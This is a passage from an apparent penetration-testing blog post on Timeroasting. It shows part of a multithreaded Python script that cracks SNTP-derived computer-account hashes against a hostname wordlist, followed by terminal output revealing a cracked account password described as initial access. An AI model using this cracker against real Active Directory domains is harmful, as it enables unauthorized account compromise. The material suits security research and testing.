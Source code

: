 ```python
    result_queue = queue.Queue()

    if wordlist is not None:
        with open(wordlist) as f:
            wordlist = [w.lower().strip('$')[:14] for w in f.read().splitlines()]

    threads = []
    for _ in range(thread_count):
        thread = threading.Thread(target=brute_force_worker, args=(hash_queue, result_queue, wordlist))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

    while not result_queue.empty():
        user, password = result_queue.get()
        print(f'[+] {user}$:{password}')

if __name__ == '__main__':
    parser = ArgumentParser()
    parser.add_argument('hashes_file', help='File containing hashes to crack')
    parser.add_argument('-wf', '--wordlist-file', help='File containing passwords to test. If used, all the passwords will be tested against '
                                                       'every hash. Otherwise, use "COMP:FMT$HASH$SALT" format for lines in hashes file')
    parser.add_argument('-t', '--threads', type=int, default=cpu_count(), help=f'Number of threads (default: {cpu_count()})')
    args = parser.parse_args()

    main(args.hashes_file, args.wordlist_file, args.threads)
```

On a default 4 cores Kali VM 2k wordlist brute force session took 4,5 sec (expected due to the low complexity of hashing algorithms) which gave the desired initial access computer account:

```terminal?prompt=$
~$ wc -l sntp.in hostnames.txt
  1859 sntp.in
  1859 hostnames.txt
  3718 total
~$ time python3 crack_sntp.py sntp.in -wf hostnames.txt
[+] DESKTOP-EUM3L4L$:desktop-eum3l4
python3 crack_sntp.py sntp.in hostnames.txt  4.52s user 0.14s system 103% cpu 4.521 total
```

## Authenticated

When I first saw the [PowerShell port](https://github.com/SecuraBV/Timeroast/blob/main/timeroast.ps1) of the Timeroast script, I instantly thought of its authenticated use case: we simply need to integrate an LDAP query to get all the required information within a single script run:
